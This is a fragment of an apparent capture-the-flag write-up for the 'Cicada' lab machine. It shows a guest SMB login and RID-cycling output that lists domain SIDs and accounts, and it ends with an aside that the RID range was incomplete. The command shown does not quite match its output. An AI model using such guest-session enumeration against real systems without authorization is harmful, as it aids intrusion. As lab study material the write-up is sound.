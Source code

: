 Checking the Cicada Box forum apparently the "guest" user with no password works.

`smbclient -a -u "guest" cicada.htb`
```
===================( Users on cicada.htb via RID cycling (RIDS: 500-550,1000-1050) )===================  
  
  
[I] Found new SID:    
S-1-5-21-917908876-1423158569-3159038727  
  
[I] Found new SID:    
S-1-5-21-917908876-1423158569-3159038727  
  
[I] Found new SID:    
S-1-5-32  
  
[I] Found new SID:    
S-1-5-32  
  
[I] Found new SID:    
S-1-5-32  
  
[I] Found new SID:    
S-1-5-32  
  
[I] Found new SID:    
S-1-5-32  
  
[I] Found new SID:    
S-1-5-32  
  
[I] Found new SID:    
S-1-5-32  
  
[I] Found new SID:    
S-1-5-21-917908876-1423158569-3159038727  
  
[I] Found new SID:    
S-1-5-21-917908876-1423158569-3159038727  
  
[+] Enumerating users using SID S-1-5-21-47050115-2771739599-2321771406 and logon username 'guest', password ''  
  
S-1-5-21-47050115-2771739599-2321771406-500 CICADA-DC\Administrator (Local User)  
S-1-5-21-47050115-2771739599-2321771406-501 CICADA-DC\Guest (Local User)  
S-1-5-21-47050115-2771739599-2321771406-503 CICADA-DC\DefaultAccount (Local User)  
S-1-5-21-47050115-2771739599-2321771406-504 CICADA-DC\WDAGUtilityAccount (Local User)  
S-1-5-21-47050115-2771739599-2321771406-513 CICADA-DC\None (Domain Group)
```

*Relying on the SIDs found here via RID cycling was a bad idea, this range was incomplete.*
